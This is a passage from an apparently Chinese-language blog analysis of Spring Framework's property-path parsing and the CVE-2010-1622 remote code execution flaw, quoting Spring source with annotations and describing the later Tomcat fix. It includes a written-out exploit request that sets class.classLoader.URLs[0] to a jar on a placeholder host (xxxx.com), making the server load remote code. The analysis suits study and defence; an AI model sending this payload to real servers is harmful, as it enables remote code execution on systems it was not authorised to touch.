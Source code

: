 ```bash
        }
    }
```

来看看 getFirstNestedPropertySeparatorIndex 方法：

```bash
private static int getNestedPropertySeparatorIndex(String propertyPath, boolean last) {
        boolean inKey = false;
    // 获取对应的属性的长度
        int length = propertyPath.length();
        int i = (last ? length - 1 : 0);
        while (last ? i >= 0 : i < length) {
      // 对所有的字符遍历进行解析，这里增加一个 inKey 的 flag，要
          // 对[ 和 ] 符号做成对的判断
            switch (propertyPath.charAt(i)) {
                case PropertyAccessor.PROPERTY_KEY_PREFIX_CHAR:
                case PropertyAccessor.PROPERTY_KEY_SUFFIX_CHAR:
                    inKey = !inKey;
                    break;
                case PropertyAccessor.NESTED_PROPERTY_SEPARATOR_CHAR:
          // 如果出现'.' ,说明存在嵌套属性，并且 inKey =false ,说明在这之前[ ] 是成对匹配的
                // 返回对应的 index 位置
                    if (!inKey) {
                        return i;
                    }
            }
            if (last) {
                i--;
            }
            else {
                i++;
            }
        }
        return -1;
    }
```

在该方法中首先会获取属性的长度，然后对所有的字符遍历解析，并且对指示属性键的开始符号`[`进行成对判断，如果在路径中出现了`.`，那么认为存在嵌套属性，然后返回 getPropertyAccessorForPropertyPath 到方法，去递归处理嵌套属性。

到这里相信大家就明白是怎么一回事了，所以如果我们想通过 class 去调用 classLoader 的属性，只需要通过 class.classLoader 的方式即可。

并且前面我们也提到了可以通过 Java 的内省来赋值，所以我们只需要找到 classLoader 中一个可以利用的属性，就可以达到我们想要的目的——RCE。

对于 CVE-2010-1622，利用的方式是

`http://localhost:8080/index?class.classLoader.URLs[0]=jar:http://xxxx.com/exp.jar!/`

setPropertyValue 将`jar:http://xxxx.com/exp.jar!/`参数传到 URLs\[\]中，然后经过 jsp 页面渲染时，通过一些列类的调用，最终对 exp.jar 进行了加载，触发了 RCE。

CVE-2010-1622 漏洞过后，Spring 官方和 Tomcat 的官方都对漏洞进行了修复。

Tomcat 的做法是，在 6.0.28 版本后把 getURLs 方法返回的值改成了 clone 的，这使的我们获得的 clone 的值无法修改 classloader 中的 URLs\[\]
